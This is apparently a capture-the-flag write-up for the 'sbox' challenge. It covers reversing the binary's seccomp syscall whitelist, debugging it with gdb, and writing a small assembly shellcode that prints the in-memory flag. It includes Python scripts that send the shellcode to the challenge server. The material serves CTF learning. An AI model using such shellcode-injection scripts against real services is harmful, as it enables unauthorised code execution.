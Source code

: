 ### Solved by barrebas

Quirky little challenge, this `sbox`. We're actually given the keys to the kingdom right away!

Again, this was a one-two with superkojiman, who did the initial reversing! The program needs `libseccomp` to run. I had to install `libseccomp1` on my Ubuntu VM and symlink `libseccomp.so.2` to it to make the binary start. [libseccomp](http://sourceforge.net/projects/libseccomp/) does syscall filtering. In this case, whatever is added to its internal list is ok, other syscalls are caught and the program exits with SIGSYS. 

The syscalls that are whitelisted can be found by looking for `seccomp_rule_add` calls:

```
 80488dc: c7 44 24 0c 00 00 00  mov    DWORD PTR [esp+0xc],0x0
 80488e3:   00 
 80488e4:   c7 44 24 08 03 00 00    mov    DWORD PTR [esp+0x8],0x3  ; syscall read
 80488eb:   00 
 80488ec:   c7 44 24 04 00 00 ff    mov    DWORD PTR [esp+0x4],0x7fff0000
 80488f3:   7f 
 80488f4:   8b 44 24 34             mov    eax,DWORD PTR [esp+0x34]
 80488f8:   89 04 24                mov    DWORD PTR [esp],eax
 80488fb:   e8 b0 fc ff ff          call   80485b0 <seccomp_rule_add@plt>
 8048900:   89 44 24 38             mov    DWORD PTR [esp+0x38],eax
 8048904:   83 7c 24 38 00          cmp    DWORD PTR [esp+0x38],0x0
 8048909:   79 05                   jns    8048910 <main+0x191>
 804890b:   e9 d9 00 00 00          jmp    80489e9 <main+0x26a>
 8048910:   c7 44 24 0c 00 00 00    mov    DWORD PTR [esp+0xc],0x0
 8048917:   00 
 8048918:   c7 44 24 08 04 00 00    mov    DWORD PTR [esp+0x8],0x4  ; syscall write
 804891f:   00 
 8048920:   c7 44 24 04 00 00 ff    mov    DWORD PTR [esp+0x4],0x7fff0000
 8048927:   7f 
 8048928:   8b 44 24 34             mov    eax,DWORD PTR [esp+0x34]
 804892c:   89 04 24                mov    DWORD PTR [esp],eax
 804892f:   e8 7c fc ff ff          call   80485b0 <seccomp_rule_add@plt>
 8048934:   89 44 24 38             mov    DWORD PTR [esp+0x38],eax
 8048938:   83 7c 24 38 00          cmp    DWORD PTR [esp+0x38],0x0
 804893d:   79 05                   jns    8048944 <main+0x1c5>
 804893f:   e9 a5 00 00 00          jmp    80489e9 <main+0x26a>
 8048944:   c7 44 24 0c 00 00 00    mov    DWORD PTR [esp+0xc],0x0
 804894b:   00 
 804894c:   c7 44 24 08 01 00 00    mov    DWORD PTR [esp+0x8],0x1  ; syscall exit
 8048953:   00 
 8048954:   c7 44 24 04 00 00 ff    mov    DWORD PTR [esp+0x4],0x7fff0000
 804895b:   7f 
 804895c:   8b 44 24 34             mov    eax,DWORD PTR [esp+0x34]
 8048960:   89 04 24                mov    DWORD PTR [esp],eax
 8048963:   e8 48 fc ff ff          call   80485b0 <seccomp_rule_add@plt>
```

So that's not a whole lot to work with. We can only read, write and exit. No `execve` or open/read/write for us!

Diving deeper
---
Luckily, when run, the binary does all the heavy lifting for us. It reads the flag and stores it on the heap. It then waits for input, storing that also on the heap and then proceeds to run whatever is entered:

```
   0x80489d6 <main+599>:    call   0x80485a0 <read@plt>
   0x80489db <main+604>:    mov    eax,DWORD PTR [esp+0x2c]
   0x80489df <main+608>:    mov    DWORD PTR [esp+0x3c],eax
   0x80489e3 <main+612>:    mov    eax,DWORD PTR [esp+0x3c]
   0x80489e7 <main+616>:    call   eax
```

This allows us to supply our own shellcode without even having to exploit a vulnerability. There were some annoying things that prevented me from debugging the binary locally, so I hex-edited the binary to make the calls to `signal()` and `alarm()` do nothing (edit the `plt` section for those calls & make the first byte `0xc3` -> `RET`).

I started binary via `socat` to test locally. First, let's see what we have to work with, by sending a single `0xcc` (`INT 3`) via a python script:

```python
import socket
import time

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('localhost', 5555))

raw_input()
s.send("\xcc")

print s.recv(256)
s.close()
```

The `raw_input()` serves to halt the binary, given us the chance to attach gdb with 

```bash
$ gdb -pid `pgrep sbox`
```

After attaching, I entered 'c' to continue execution. Then the binary crashes upon hitting the `INT 3`. The registers look like this, flag is in the same mmapped region:

```
0xb77c6002 in ?? ()
gdb-peda$ i r
eax            0xb77c6000    0xb77c6000
ecx            0xb77c6000    0xb77c6000
edx            0x2000    0x2000
ebx            0xb77a5ff4    0xb77a5ff4
esp            0xbf9eff0c    0xbf9eff0c
ebp            0xbf9eff58    0xbf9eff58
esi            0x0    0x0
edi            0x0    0x0
eip            0xb77c6002    0xb77c6002
eflags         0x207    [ CF PF IF ]
cs             0x73    0x73
ss             0x7b    0x7b
ds             0x7b    0x7b
es             0x7b    0x7b
fs             0x0    0x0
gs             0x33    0x33
gdb-peda$ find "FLAG"
Searching for 'FLAG' in: None ranges
Found 2 results, display max 2 items:
    mapped : 0xb77c8000 ("FLAG\n")
```

I whipped up some 'shellcode' (if you can call it that). We can use the values of the registers in our shellcode to write the flag to STDOUT. For instance, `ecx` already points to the shellcode. We just have to add `0x2000` to it to get the address of the flag!

```
bits 32

push 0x20     # 
pop ebx       # pop 0x20 in ebx
shl ebx, 8    # ebx is now 0x2000
              # adjust ecx so that it points to flag in memory
add ecx, ebx  # ecx = buffer
xor ebx, ebx  # ebx = fd
inc ebx       # STDOUT; STDERR also works
xor edx, edx  # edx = count
mov dl, 0xff  # write out 255 bytes
push 4        # eax = syscall
pop eax       # eax = write
int 0x80      # get flag!
```

I avoided null-bytes, just in case. The shellcode was compiled with 

```bash
$ nasm -f bin ./shellcode.asm
```

I had issues with `radare2` not recognizing some opcodes (need to look into that!), which is why I switched to `nasm`. Using a modified version of the earlier python code, I sent the shellcode over to the server:

```python
import socket
import time

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('54.163.248.69',9001))

with open('shellcode') as f:
    data = f.read()
    s.send(data)

print s.recv(256)
s.close()
```

The result:

```bash
$ python sploit.py
d3sp3r4t3_sh3llc0d3
```

The flag was `d3sp3r4t3_sh3llc0d3`.

